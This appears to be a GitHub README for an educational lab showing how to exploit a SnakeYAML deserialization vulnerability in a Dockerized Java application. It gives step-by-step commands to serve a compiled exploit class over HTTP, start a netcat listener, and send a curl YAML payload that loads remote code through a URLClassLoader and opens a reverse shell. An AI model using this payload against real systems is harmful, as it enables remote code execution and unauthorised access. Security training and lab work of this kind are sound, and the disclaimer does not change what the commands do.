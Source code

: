Exploiting SnakeYAML Deserialization Vulnerability and Obtaining a Reverse Shell
This repository contains a step-by-step guide on how to exploit the SnakeYAML deserialization vulnerability in a Java application running in a Docker container, and how to obtain a reverse shell. Please note that this guide is for educational purposes only and should not be used for any malicious activities.

Prerequisites
Before starting, make sure you have the following:

Docker installed on your system.
Basic knowledge of Docker and Java.
About the Vulnerable Application
The vulnerable Java application running in the Docker container is designed to accept unsanitized YAML input. The application uses SnakeYAML, a popular YAML library for Java, which is known to have a deserialization vulnerability.

It's important to note that in a secure production environment, applications should always validate and sanitize user input to prevent security vulnerabilities like this. The purpose of this repository is to demonstrate the exploitation of such vulnerabilities for educational purposes only.

Steps
1. Set up the Docker environment
Clone this repository to your local machine.
Navigate to the repository's directory.
2. Build the vulnerable application
Build the Docker image containing the vulnerable Java application by running the following command:

docker build -t vulnerable-app .
3. Start the Docker container
Start the Docker container using the following command:

docker run -d -p 8080:8080 --name vulnerable-container vulnerable-app

4. Edit and compile ExploitScriptEngineFactory.java
javac ExploitScriptEngineFactory.java

Then place the class file inside the folder (e.g exploit/ExploitScriptEngineFactory.class)

5. Start an HTTP server

Start an HTTP server to host the java class file inside the `src` directory. You can use Python's SimpleHTTPServer module:

python3 -m http.server 8000

6. Exploit the SnakeYAML deserialization vulnerability
Start a listener on your local machine to receive the reverse shell connection. Use Netcat or any other suitable tool:

nc -lvp 3333
Serve the java class file using the same HTTP server from step 4.


Use a tool like Burp Suite or curl to send a malicious payload to the vulnerable application. Modify the payload as per your requirements.

curl -X POST -H "Content-Type: application/x-yaml" \
     -d '!!javax.script.ScriptEngineManager [
          !!java.net.URLClassLoader [[!!java.net.URL ["http://<your-server-ip>:8000/"]]]
        ]' \
     http://localhost:8080/endpoint


Once the payload is successfully executed on the vulnerable machine, you will receive a reverse shell connection on your listener.

Disclaimer
This guide is provided for educational purposes only. Do not use this information for any illegal or malicious activities. The authors and contributors are not responsible for any misuse or damage caused. Use at your own risk.

Contributing
If you have any improvements or suggestions for this guide, please feel free to submit a pull request.

License
This project is licensed under the MIT License.